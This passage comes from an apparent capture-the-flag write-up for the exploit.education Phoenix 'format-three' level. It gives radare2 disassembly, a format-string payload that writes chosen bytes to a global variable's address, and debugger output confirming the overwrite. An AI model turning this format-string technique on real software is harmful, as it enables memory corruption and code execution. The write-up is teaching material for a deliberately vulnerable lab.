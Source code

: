                                                          | call sym.imp.exit;[oc]            |
                                                          `-----------------------------------'
[0x080484fc]> pdf @ sym.bounce
/ (fcn) sym.bounce 23
|   sym.bounce (int32_t arg_8h);
|           ; arg int32_t arg_8h @ ebp+0x8
|           ; CALL XREF from main @ 0x8048551
|           0x080484e5      55             push ebp
|           0x080484e6      89e5           mov ebp, esp
|           0x080484e8      83ec08         sub esp, 8
|           0x080484eb      83ec0c         sub esp, 0xc
|           0x080484ee      ff7508         push dword [arg_8h]
|           0x080484f1      e80afeffff     call sym.imp.printf         ; int printf(const char *format)
|           0x080484f6      83c410         add esp, 0x10
|           0x080484f9      90             nop
|           0x080484fa      c9             leave
\           0x080484fb      c3             ret
{% endhighlight %}

The binary is almost identical with the one from the previous level. The only difference is that the value to be written to the address of the flag `obj.changeme` is `0x64457845`.

With that in mind, the methodology to be followed takes into account the exploit from the previous level. In order to write 4 bytes, one at a time, the exploit needs to be modified a little bit.

{% highlight shell %}
$ echo $(printf "\x44\x98\x04\x08AAAA\x45\x98\x04\x08AAAA\x46\x98\x04\x08AAAA\x47\x98\x04\x08")%x%x%x%x%x%x%x%x%x%x%8x%n > pattern
{% endhighlight %}

{% highlight shell %}
#!/usr/bin/env rarun2
stdio=/dev/pts/0
stdin=./pattern
{% endhighlight %}

*Replace `/dev/pts/0` with the output of the command `tty` and `./pattern` with the full path to the file that contains the input to be read from the binary.*

{% highlight shell %}
$ r2 -d /opt/phoenix/i486/format-three -r theProfile.rr2
{% endhighlight %}

{% highlight nasm %}
[0xf7eccd4b]> aas
Cannot analyze at 0x080485e0
[0xf7eccd4b]> db 0x0804855e
[0xf7eccd4b]> px/xw @ obj.changeme
0x08049844  0x00000000                                   ....
[0xf7eccd4b]> dc
Welcome to phoenix/format-three, brought to you by https://exploit.education
hit breakpoint at: 804855e
[0x0804855e]> px/xw @ obj.changeme
0x08049844  0x00000059                                   Y...
{% endhighlight %}
